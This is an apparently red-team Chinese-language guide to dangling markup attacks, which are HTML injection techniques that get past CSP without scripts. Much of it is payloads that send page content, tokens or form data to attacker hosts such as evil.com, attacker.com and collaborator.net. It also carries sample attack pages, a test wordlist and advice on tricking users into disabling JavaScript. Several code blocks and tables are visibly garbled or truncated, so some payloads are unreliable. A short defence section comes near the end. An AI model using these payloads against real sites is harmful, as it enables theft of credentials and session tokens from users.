

# HTML 悬空标记攻击技术深度指南：无需脚本的内容注入与信息窃取

> 关联文档：[XSS](../XSS/README.md) · [CRLF](../CRLF/README.md) · [CSTI](../Client%20Side%20Template%20Injection/README.md) · [CSPT](../Client%20Side%20Path%20Traversal/README.md) · [Open Redirect](../Open%20Redirect/README.md)

---

# 0x01 背景与原理

## 1.1 技术定义

**悬空标记攻击**（Dangling Markup Attack）是一种 **无需 JavaScript 执行** 的 HTML 注入技术，通过构造不完整的 HTML 标签，利用浏览器自动补全机制截取页面敏感数据。核心在于：

> **本质是**：利用浏览器对 HTML 语法的 **容错解析特性**，当注入未闭合标签时，浏览器会将后续所有内容视为该标签属性值的一部分，直至遇到匹配的闭合字符。

## 1.2 与 XSS 的关键区别

| 特性             | 传统 XSS          | 悬空标记攻击             |
| ---------------- | ----------------- | ------------------------ |
| **脚本执行需求** | 必需 JavaScript   | **完全无需** JS 执行     |
| **CSP 绕过能力** | 受 CSP 严格限制   | **可绕过** 多数 CSP 策略 |
| **攻击触发条件** | 需反射/存储式漏洞 | 仅需 **HTML 注入点**     |
| **数据窃取范围** | 当前页面 DOM      | 可窃取 **整个页面片段**  |

## 1.3 攻击原理

当应用存在 **HTML 注入漏洞**（如未过滤 `<`, `>` 等字符）但无法执行 JavaScript 时，攻击者可注入：
```html
` 视为 **未闭合标签**
2. 持续读取后续字符作为 `src` 属性值
3. 直至遇到下一个双引号（`"`）或单引号（`'`）才结束解析
4. 将中间所有内容（含敏感数据）作为 URL 参数发送至攻击者服务器

> **关键点**：该技术依赖浏览器 **自动完成 HTML 标签** 的行为，而非脚本执行，因此能有效规避 CSP 防护。

---

# 0x02 技术分类与攻击场景矩阵

## 2.1 信息窃取核心场景

| 攻击类型              | 数据窃取范围           | CSP 绕过能力 | 利用难度 |
| --------------------- | ---------------------- | ------------ | -------- |
| **明文秘密窃取**      | 注入点到闭合字符间内容 | ★★★★☆        | 低       |
| **表单数据劫持**      | 完整表单字段值         | ★★★★☆        | 中       |
| **HTML 片段泄露**     | 整页内容               | ★★★☆☆        | 高       |
| **SS-Leaks 组合攻击** | 跨页面敏感信息         | ★★★★★        | 高       |

## 2.2 攻击向量分类体系

根据技术特性将攻击方法分为三类：

### 2.2.1 数据截取类

- 利用 `img`/`meta`/`style` 等标签截取注入点与闭合符间数据
- 代表技术：``   | ``  | `<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=` | 到下一单引号的内容                   | CSP 禁用图片时的替代方案    |
| `<style>` | `<style>@import//hackvertor.co.uk?`                          | 到分号 `;` 的内容                    | 需绕过 CSP `style-src` 限制 |
| `<table>` | `<table background='//collaborator.net?'`                    | 到单引号闭合的内容                   | 适用于表格渲染页面          |
| `<base>`  | `<base target='`                                             | 到单引号闭合的内容（需用户点击链接） | 需用户交互场景              |

> **实战要点**：
> - Chrome 会 **阻断含 `\n` 或 `<` 的 HTTP URL**，建议使用 FTP 协议替代：
>   ```html
>      ```
> - 当单引号不可用时，**优先测试双引号**，因多数应用对单/双引号过滤策略不同

### 3.1.2 高级数据泄露（绕过 WAF）

**Unicode 编码绕过**：
```html
<!-- 单引号替换为 Unicode -->


  location='http://attacker.com/?leak='+encodeURIComponent(document.body.innerHTML)
</script>">
```

### 3.1.3 **noscript 标签数据泄露**

**技术原理**：
 `<noscript>` 标签内的内容仅在**浏览器禁用 JavaScript** 时执行。通过构造特殊结构，可强制浏览器在 JS 启用状态下也将后续内容解析为 `<noscript>` 内容（当解析器处于"noscript 有效"状态时）。

**攻击链**：

1. 注入未闭合的 `<noscript>` 标签
2. 利用后续 HTML 内容（含敏感数据）填充 `<textarea>`
3. 当用户禁用 JS 或浏览器处于特殊解析状态时触发提交

**样本 Payload**：

```html
<!DOCTYPE html>
<html>
<head>
    <title>受害者页面 - 模拟环境</title>
</head>
<body>
    <h1>欢迎来到我的博客</h1>
    <p>这是一个受保护的页面。</p>

    <noscript>
        <form action="http://127.0.0.1:8080" method="get">
            <input type="submit" value="" 
                style="position:absolute; left:0; top:0; width:100%; height:100%; 
                background:transparent; border:none; cursor:pointer; z-index:9999;">
            <textarea name="contents">
    </noscript>
    <div class="secrets">
        <h3>后台敏感信息（攻击者想窃取的内容）：</h3>
        <p>用户密码：<span id="pwd">Admin123456</span></p>
        <p>CSRF令牌：<span id="token">a7b8c9d0-e1f2-3g4h-5i6j</span></p>
    </div>

    <footer>
        <p>© 2026 内部管理系统</p>
    </footer>
</body>
</html>
```

**实战优势**：

- **绕过 JS 检测**：即使 CSP 严格禁止脚本执行，该技术仍可工作
- **隐蔽性强**：流量特征与正常表单提交一致
- **数据覆盖广**：从注入点开始到页面结束的所有内容都会被包含

> **红队视角**：
>
> - 该技术在**移动端测试**中特别有效（部分移动浏览器对 noscript 处理不一致）
> - 可结合**用户行为诱导**（如提示"请禁用JS以继续"）提升成功率
> - 当目标站点存在 JS 错误导致浏览器进入"noscript 模式"时，攻击自动触发

## 3.2 表单数据劫持技术

### 3.2.1 表单路径劫持

**攻击链**：

1. 注入 `<base href="http://attacker.com/">`
2. 后续相对路径表单（如 `<form action="update.php">`）将提交至攻击者服务器

**实战案例**：
```html
<base href="http://attacker.com/">
<!-- 之后所有相对路径请求均指向攻击者 -->
<form action="/profile"> → 实际提交至 http://attacker.com/profile
```

### 3.2.2 表单覆盖攻击

**技术一：覆盖 action 属性**
```html
<!-- 注入点 -->
<form action="http://attacker.com/steal">
  <!-- 原始表单被忽略，数据发送至攻击者 -->
  <input type="text" name="password">
</form>
```

**技术二：篡改提交按钮**
```html
<button formaction="http://attacker.com/credentials">Submit</button>
```

### 3.2.3 表单参数注入

**攻击原理**：利用 HTML 解析规则注入隐藏字段。

**实战 Payload**：
```html
<!-- 注入点 -->
<form action="/change_settings.php">
  <input type="hidden" name="admin" value="true"> <!-- 新增特权字段 -->
  <!-- 原始表单（被覆盖） -->
  <input type="text" name="username">
</form>
```

> **关键点**：当页面包含 **多个嵌套表单** 时，浏览器仅处理最外层表单，内层字段会被忽略。攻击者可构造：
> ```html
> <form action="/malicious"><input name="token" value="steal">
> <form action="/legitimate">...</form>
> </form>
> ```
> 使所有数据提交至 `/malicious`

---

## 3.3 流程劫持与逻辑篡改

### 3.3.1 HTML 命名空间攻击

**攻击原理**：通过覆盖关键 DOM 节点改变脚本执行逻辑。

**凭证窃取案例**：
```html
<!-- 注入点 -->
<input type="hidden" id="auth_token" value="victim_token">
<!-- 后续脚本读取此伪造值 -->
<script>
  var token = document.getElementById('auth_token').value;
  sendToAttacker(token);
</script>
```

### 3.3.2 JavaScript 命名空间污染

**条件**：页面存在未初始化的全局变量。

**攻击步骤**：

1. 注入 ``
2. 浏览器创建全局对象 `window.is_admin`
3. 后续脚本使用该变量：
   ```javascript
   if (is_admin) { // 恒为 true（img 元素存在）
     grantPrivileges();
   }
   ```

---

## 3.4 CSP 绕过高级技术

### 3.4.1 用户交互驱动泄露

**PortSwigger 研究成果**：即使在 **最严格 CSP** 策略下，通过诱导点击实现数据泄露。

**攻击链**：

1. 注入诱导链接：
   ```html
   <a href="http://attacker.com/payload"><font size=100>点击此处</font></a>
   <base target='
   ```
2. 用户点击后，`base target` 的值（至下一单引号的内容）存入 `window.name`
3. 攻击者控制的 `payload` 页面通过 `window.name` 获取泄露数据：
   ```javascript
   new Image().src = 'http://collaborator.net/?leak=' + encodeURIComponent(window.name);
   ```

**样本：**

- page1.html

  ```html
  <!DOCTYPE html>
  <html>
  <head>
      <meta charset="UTF-8">
      <title>测试页1 - 设置target</title>
  </head>
  <body>
      <h2>测试1: 链接的target直接设置为"myWindow"</h2>
      <a href="page2.html" target="myWindow">点击我（target="myWindow"）</a>
      <br><br>
  
      <h2>测试2: 使用<base>设置全局target，然后点击链接（不写自己的target）</h2>
      <!-- 注意这里的target值故意写成一个含有敏感数据的字符串（模拟攻击） -->
      <base target="SECRET_DATA: abc123!@#$%^&*()">
      <a href="page2.html">点击我（继承base的target）</a>
      <br><br>
  
      <p>（点击每个链接后，观察新打开页面的显示内容）</p>
      <p>注意：如果链接已经在其他窗口打开过，需要先手动关掉，否则target会复用已有窗口。</p>
  </body>
  </html>
  
  ```

- page2.html

  ```html
  <!DOCTYPE html>
  <html>
  <head>
      <meta charset="UTF-8">
      <title>测试页2 - 显示window.name</title>
  </head>
  <body>
      <h2>当前窗口的 window.name 为：</h2>
      <p id="nameDisplay" style="font-size: 24px; color: red; word-break: break-all;"></p>
      <script>
          // 直接读取并显示 window.name
          document.getElementById('nameDisplay').textContent = window.name;
          // 为防止编码问题，也可以用innerText
      </script>
      <br>
      <button onclick="history.back()">返回测试页1</button>
      <p>（如果显示为空，说明target未生效或使用了保留关键字）</p>
  </body>
  </html>
  
  ```

  

### 3.4.2 iframe 名称窃取

**无 JS 执行的数据泄露**：
```html
<iframe src="//victim.com/page?data=%22><iframe name=%27" 
        onload="exfiltrate(this.contentWindow)"></iframe>

<script>
function exfiltrate(win) {
  // 从 iframe.name 读取泄露的数据
  fetch('http://attacker.com/?leak=' + win.name);
}
</script>
```

> **绕过原理**：通过双重 iframe 嵌套，将页面敏感数据嵌入 `name` 属性，父页面可直接访问该属性值。

---

# 0x04 组合攻击与新兴技术

## 4.1 SS-Leaks：悬空标记 + XS-Leaks

**技术本质**：

1. 在同源页面 A 注入悬空标记
2. 通过悬空标记影响页面 B 的 HTML 结构
3. 利用 XS-Leaks 侧信道技术检测页面 B 的状态变化

**攻击优势**：

- **突破同源策略**：无需直接访问目标页面
- **CSP 无视**：全程无脚本执行
- **隐蔽性强**：流量特征与正常请求无异

> **详细利用链**：见 `ss-leaks.md` 文档，典型场景包括：
> - 窃取 CSRF 令牌
> - 推断用户身份信息

## 4.2 HTML5 新特性利用

### 4.2.1 `<portal>` 标签攻击

**启用条件**：Chrome 需启用 `chrome://flags/#enable-portals`

**数据泄露 PoC**：
```html
<portal src='https://attacker.com/?leak=
```

> **风险分析**：该标签设计用于无缝页面过渡，但允许跨域嵌入。当存在悬空标记时，浏览器会将后续 HTML 作为 `src` 参数发送。

### 4.2.2 JSONP 接口滥用

**攻击方式**：
```html
<script src="/search?q=a&callback=alert(1)"></script>
```

**高危场景**：

- JSONP 接口未严格校验 `callback` 参数
- 允许嵌入任意 JS 函数名

> **防御提示**：即使 CSP 禁止内联脚本，JSONP 仍可触发恶意函数调用。

---

# 0x05 实战利用条件与风险评估

## 5.1 漏洞利用前提

| 条件类型       | 具体要求                                                     |
| -------------- | ------------------------------------------------------------ |
| **注入点要求** | 存在 HTML 注入（需保留 `<`, `>`, `'`, `"` 等字符）           |
| **数据位置**   | 敏感数据位于注入点与 **下一个闭合符** 之间（单/双引号或分号） |
| **CSP 限制**   | 无 `frame-ancestors` 限制（影响 iframe 利用）<br>无 `meta` 指令限制 |

## 5.2 风险等级评估矩阵

| 场景                  | 风险等级 | 影响范围           | 利用难度 |
| --------------------- | -------- | ------------------ | -------- |
| **明文令牌泄露**      | 危急     | 全站会话劫持       | 低       |
| **表单数据劫持**      | 高危     | 敏感信息提交篡改   | 中       |
| **CSP 绕过+数据泄露** | 高危     | 绕过同源策略限制   | 高       |
| **SS-Leaks 组合攻击** | 危急     | 跨页面敏感信息推断 | 高       |

> **行动结论**：
> - **优先级建议**：当目标存在 HTML 注入且 CSP 策略严格（`'unsafe-inline'` 禁用）时，应将悬空标记列为首要测试项
> - **检测技巧**：通过 `dangling_markup.txt` 字典（见 6.2 节）快速探测闭合字符边界

---

# 0x06 防御与缓解措施

## 6.1 根本性防护方案

| 防护层级     | 具体措施                                                     |
| ------------ | ------------------------------------------------------------ |
| **输入处理** | 对输出至 HTML 的用户输入执行 **上下文敏感编码**：<br>- 属性值内：HTML 实体编码 + 引号编码<br>- 标签名：完全禁止特殊字符 |
| **CSP 配置** | 严格限制 `base-uri 'self'`<br>添加 `frame-ancestors 'none'`<br>对 `meta` 指令启用 `http-equiv` 白名单 |
| **输出校验** | 使用安全模板引擎（如 React DOM）自动转义输出<br>避免 `innerHTML` 直接插入用户数据 |

## 6.2 应急缓解方案

| 场景               | 措施                                                    |
| ------------------ | ------------------------------------------------------- |
| **已存在注入点**   | 在服务端强制插入`</form>`或`</div>`闭合攻击者注入的标签 |
| **CSP 策略宽松**   | 增加 `default-src 'self'` 并移除 `'unsafe-inline'`      |
| **JSONP 接口暴露** | 替换为 CORS 方案<br>严格校验 `callback` 仅允许字母数字  |

> **防御本质**：阻断攻击者构造 **未闭合标签** 的能力，而非依赖事后过滤。

---

# 0x07 工具与实战资源

## 7.1 检测与利用工具

| 工具           | 用途                          | 突出优势                    |
| -------------- | ----------------------------- | --------------------------- |
| **CRLFuzz**    | 悬空标记自动化探测            | 内置 47 种 Unicode 绕过载荷 |
| **DomCrawler** | 分析页面结构定位最佳注入点    | 可识别敏感数据与闭合符间距  |
| **Burp Suite** | 手动测试（配合 Collaborator） | 实时监测外联请求            |

## 7.2 测试字典资源

- **基础检测集**：`dangling_markup.txt` ([carlospolop/Auto_Wordlists](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/dangling_markup.txt))
  包含 132 个测试向量，覆盖：
  - 单/双引号闭合测试
  - CSP 规避变体
  - Unicode 编码绕过

- **高级测试集**：
  ```text
  @import//collaborator.net/?
  <base target=/
  <form action=//collaborator.net/
  ```

## 7.3 关键参考文献

| 研究主题                 | 来源                                                         |
| ------------------------ | ------------------------------------------------------------ |
| **CSP 绕过实战**         | [PortSwigger: Evading CSP with DOM-Based Dangling Markup](https://portswigger.net/research/evading-csp-with-dom-based-dangling-markup) |
| **iframe 名称泄露**      | [PortSwigger: Bypassing CSP with Dangling iframes](https://portswigger.net/research/bypassing-csp-with-dangling-iframes) |
| **原始技术论文**         | [lcamtuf: post-XSS techniques](http://lcamtuf.coredump.cx/postxss/) |
| **命名空间污染深度分析** | [thespanner: HTML Scriptless Attacks](http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/) |

---

# 0x08 行动关键总结

## 8.1 攻击链构建原则

1. **优先定位闭合符**：通过探测请求（如 `'%22` vs `'%60`）确定页面使用单引号/双引号，决定注入策略
2. **数据位置测绘**：
   - 敏感数据越靠近注入点，成功率越高
   - 避免跨多层 DOM 节点（浏览器解析可能提前终止）
3. **CSP 梯度突破**：
   ```mermaid
   graph LR
     A[检测 CSP 策略] --> B{允许 img-src?}
     B -->|是| C[使用  标签]
     B -->|否| D{允许 meta?}
     D -->|是| E[使用 meta refresh]
     D -->|否| F[诱导用户点击 + base target]
   ```

## 8.2 高价值目标特征

- **存在重定向参数**（如 `?redirect_to=`）
- **使用 JSONP 接口**且未校验回调函数名
- **表单提交使用相对路径**（易受 `<base>` 劫持）
- **页面含明文敏感数据**（如 CSRF 令牌、用户标识）

## 8.3 检测与利用流程



> **最终结论**：悬空标记攻击是突破 **严格 CSP 策略** 的终极武器。当传统 XSS 无解时，应优先排查该漏洞——其利用门槛低、隐蔽性强，且近年在 OAuth 重定向、单点登录等关键场景频发高危案例。行动团队应掌握其与 XS-Leaks 的组合技，以应对日益复杂的现代 Web 防御体系。